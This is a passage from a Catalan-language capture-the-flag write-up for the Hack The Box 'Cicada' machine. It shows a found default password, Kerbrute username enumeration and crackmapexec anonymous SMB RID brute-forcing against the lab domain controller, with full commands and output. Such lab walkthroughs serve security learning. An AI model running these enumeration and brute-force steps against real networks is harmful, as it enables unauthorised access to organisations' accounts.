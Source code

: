 Veiem que hi ha una contrasenya per defecte 'Your default password is: Cicada$M6Corpb*@Lp#nZp!8'. Ara, per tant, necessitem saber a quin usuari pertany. Per fer això, necessitem una llista dels usuaris i ho farem amb l'eina Kerbrute (https://github.com/ropnop/kerbrute) que ens permet fer enumeració d'usuaris. Per instal·lar-lo he seguit aquesta guia: https://gerh4rdt.hashnode.dev/kerbrute-fuerza-bruta-y-enumeracion-de-cuentas-en-ad

Abans de fer això hem posat cicada.htb al nostre fitxer /etc/hosts.

He descarregat aquesta llista que és la que ha funcionat per obtenir els noms: https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt. La he guardat amb el nom de seclist, no és el correcte però al fer el mv he clicat enter abans d'acabar de posar el nom correcte :(.

Ara sí, provem la eina per obtenir els noms dels usuaris amb els quals provarem la contrasenya per defecte que hem obtingut (ha estat un procés molt lent, l'he deixat en segon pla una hora aproximadament i encara anava per GUEST, hauria trigat vàries hores en tenir llistats tots els possibles usuaris):
```
┌──(kali㉿kali)-[~/Documents/Cicada/Kerbrute/kerbrute]
└─$ sudo ./kerbrute userenum -d cicada.htb --dc 10.10.11.35 /usr/share/seclists | tee user_list.txt


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/14/24 - Ronnie Flathers @ropnop

2024/10/14 11:20:40 >  Using KDC(s):
2024/10/14 11:20:40 >   10.10.11.35:88

2024/10/14 11:20:46 >  [+] VALID USERNAME:       guest@cicada.htb
2024/10/14 11:20:53 >  [+] VALID USERNAME:       administrator@cicada.htb
2024/10/14 11:22:26 >  [+] VALID USERNAME:       Guest@cicada.htb
2024/10/14 11:22:26 >  [+] VALID USERNAME:       Administrator@cicada.htb
2024/10/14 11:27:28 >  [+] VALID USERNAME:       GUEST@cicada.htb

```


Per tant, ho he provat amb l'eina 'crackmapexec' que ve per defecte amb Kali Linux i he obtingut resultats en menys d'un minut:
```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.10.11.35 -u anonymous -p '' --rid-brute | tee user_list_crackmapexec.txt
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing MSSQL protocol database
[*] Initializing SMB protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Initializing WINRM protocol database
[*] Initializing FTP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB                      10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB                      10.10.11.35     445    CICADA-DC        [+] cicada.htb\anonymous: 
SMB                      10.10.11.35     445    CICADA-DC        [+] Brute forcing RIDs
SMB                      10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
```